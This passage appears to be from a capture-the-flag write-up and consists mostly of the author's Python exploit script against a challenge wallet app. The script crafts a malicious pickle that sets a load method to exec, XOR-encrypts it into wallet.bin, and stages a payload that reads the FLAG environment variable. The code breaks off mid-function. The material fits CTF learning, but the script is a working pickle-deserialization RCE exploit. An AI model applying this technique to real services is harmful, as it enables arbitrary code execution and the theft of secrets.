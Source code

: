 
The following was the exploit I finally came up with:


```
import requests
from tqdm import tqdm
import pickle
import os
from urllib.request import urlretrieve

from app import Wallet

secret_key = ""
encrypt_key = 'uiweiudwnhefiuwehfiuwefniwuefniuwefnwiuweojfoiwjefijwoifjwoifjowjfoiwjfijewfoijweoifjoiwjefojwfeiojwfoijwoifjwef'

def create_rce_file():

    rce = Wallet()

    rce.load = exec

    with open("rcefile.bin", "wb") as w:
        pickle.dump(rce.__dict__, w)

def third_stage(secret_number):
    encrypt_key_bytes = encrypt_key.encode('utf-8')
    param = b"import os; balance.count = os.environ['FLAG']"
    tmp = b""

    for i in range(len(param)):
        tmp += bytes([param[i] ^ encrypt_key_bytes[i % len(encrypt_key_bytes)]])

    tmp += bytes([secret_number ^ encrypt_key_bytes[(i + 1) % len(encrypt_key_bytes)]])

    with open("wallet.bin", "wb") as w:
        w.write(tmp)

def second_stage(secret_number):
    create_rce_file()
    encrypt_key_bytes = encrypt_key.encode('utf-8')

    with open("rcefile.bin", "rb") as r:
        dump = r.read()

    tmp = b""
    for i in range(len(dump)):
        tmp += bytes([dump[i] ^ encrypt_key_bytes[i % len(encrypt_key_bytes)]])

    tmp += bytes([secret_number ^ encrypt_key_bytes[(i + 1) % len(encrypt_key_bytes)]])

    with open("wallet.bin", "wb") as w:
        w.write(tmp)
    

def create_file_with_n_bytes(nbytes, lastbyte, previous):
    with open("wallet.bin", "wb") as w:        
        for i in range(nbytes - 1):
            w.write(b"0")
        w.write((lastbyte).to_bytes())


def upload_file(p=False):
    encrypt_key_bytes = encrypt_key.encode('utf-8')
```